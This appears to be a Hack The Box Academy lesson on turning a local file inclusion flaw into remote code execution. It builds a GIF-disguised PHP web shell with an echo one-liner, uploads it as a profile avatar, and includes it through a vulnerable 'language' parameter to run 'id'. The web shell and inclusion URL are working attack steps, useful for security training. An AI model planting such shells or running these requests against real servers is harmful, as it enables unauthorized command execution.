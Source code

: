 Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

```shell-session
smoothment@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

**Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

Now, we need to upload our malicious image file. To do so, we can go to the `Profile Settings` page and click on the avatar image to select our image, and then click on upload and our image should get successfully uploaded:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg)

**Uploaded File Path**

Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Note:** As we can see, we can use `/profile_images/shell.gif` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/lfi_include_uploaded_gif.jpg)

As we can see, we included our file and successfully executed the `id` command.

**Note:** To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path, as we learned in previous sections.
